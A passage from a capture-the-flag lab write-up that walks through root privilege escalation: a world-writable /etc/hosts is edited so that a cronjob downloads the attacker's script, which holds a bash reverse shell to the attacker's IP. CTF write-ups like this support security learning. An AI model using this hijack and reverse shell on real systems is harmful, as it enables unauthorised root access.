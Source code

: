   ```
  sys/kernel
  tmp
  tmp/.ICE-unix
  tmp/.Test-unix
  tmp/.X11-unix
  tmp/.XIM-unix
  tmp/.font-unix
  var/crash
  var/lock
  var/tmp
  ```
  
- We see that cronjobs are running curl every minute which will download the script from specific server. After enumerating writeable files, you can see that we have write permission to `/etc/hosts`. Let's confirm that real quick.

  ```
  james@overpass-prod:~$ ls -al /etc/hosts
  -rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
  ```
  
- Perfect, so now what we want to do is to edit the `/etc/hosts` so that the cronjobs can download a reverse shell from our server and not from Overpass server. You just have to replace one IP in `/etc/hosts` with [YOUR-THM-IP] and save the file, leave everything else as it is.

  ```
  nano /etc/hosts

  127.0.0.1 localhost
  127.0.1.1 overpass-prod
  [YOUR-THM-IP] overpass.thm
  
  james@overpass-prod:~$ cat /etc/hosts
  127.0.0.1 localhost
  127.0.1.1 overpass-prod
  [YOUR-THM-IP] overpass.thm
  # The following lines are desirable for IPv6 capable hosts
  ::1     ip6-localhost ip6-loopback
  fe00::0 ip6-localnet
  ff00::0 ip6-mcastprefix
  ff02::1 ip6-allnodes
  ff02::2 ip6-allrouters
  ```

- After checking cronjobs we can see the full path for downloading the script `overpass.thm/downloads/src/buildscript.sh` which means we have to create exact same path like this. Go to your home directory `~` and create `/downloads/src`.
  Then in `/downloads/src` we will add our reverse shell as `buildscript.sh`. Here you can use any reverse shell that you like or even use something like `cat /root/root.txt` and then save the output somewhere where you can read it.
  It's up to you, I used simple bash one liner that I use most of the time.

  ```
  mousepad buildscript.sh

  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  
  cat buildscript.sh 
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  ```
